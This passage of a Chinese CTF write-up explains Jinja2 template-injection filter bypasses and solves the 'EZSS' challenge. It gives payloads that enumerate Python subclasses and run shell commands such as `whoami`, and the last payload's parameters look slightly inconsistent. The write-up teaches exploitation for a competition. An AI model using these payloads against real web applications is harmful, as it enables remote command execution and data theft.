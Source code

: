```python
#     >>> not foo
#     True
#     >>> foo + 42
#     Traceback (most recent call last):
#       ...
#     jinja2.exceptions.UndefinedError: 'foo' is undefined
{% set num = (self|int) %}{{num}}
# 0
{% set num = (self|string|length) %}{{num}}
# 24
{% set point = self|float|string|min %}{{point}}
# .
```

通过以上几种Payload，返回的字符串中包含尖括号、字母、空格、下划线、数字、空格、百分号、点号。  
我们的目标就是使用这些返回的字符串，结合各种过滤器，拼接出最终的Payload。

# 实战例题

## [网络安全管理员职业技能大赛]EZSS

进入页面，发现提示please get pid，尝试GET传参，发现回显参数值到页面了。  
结合题目名称以及返回报文头的Server信息，初步判断是一道SSTI题目。

经过尝试，题目过滤了`{{}}`，使用`{%print %}`来绕过，说明存在SSTI漏洞。

```bash
?pid={%print 7*7%}
```

[![](https://img-blog.csdnimg.cn/92f24a618bbd43a7814dd4cadfb43d0d.png)](https://img-blog.csdnimg.cn/92f24a618bbd43a7814dd4cadfb43d0d.png)  
题目还过滤了`.`，使用多个参数传入`[request["args"]["a"]]`来绕过，因为题目的过滤规则只对pid参数生效，我们把关键通过别的参数传入，再将参数值进行拼接即可。

查看可用的类：

```bash
?pid={%print+()[request["args"]["a"]][request["args"]["b"]][0][request["args"]["c"]]()%}&a=__class__&b=__bases__&c=__subclasses__
```

[![](https://img-blog.csdnimg.cn/83cb66e3fc6b4650b7607a3d7f31e34a.png)](https://img-blog.csdnimg.cn/83cb66e3fc6b4650b7607a3d7f31e34a.png)

执行命令并读取flag即可：

```bash
{%print ()[request["args"]["a"]][request["args"]["b"]][0][request["args"]["c"]]()[146]('whoami',shell=True,stdout=-1)["stdout"]["readlines"]() %}&a=__class__&b=__bases__&c=__subclasses__&d=__init__&f=communicate
```

[![](https://img-blog.csdnimg.cn/cfb22eb2d2f544b1b0ad1775d0b432e1.png)](https://img-blog.csdnimg.cn/cfb22eb2d2f544b1b0ad1775d0b432e1.png)
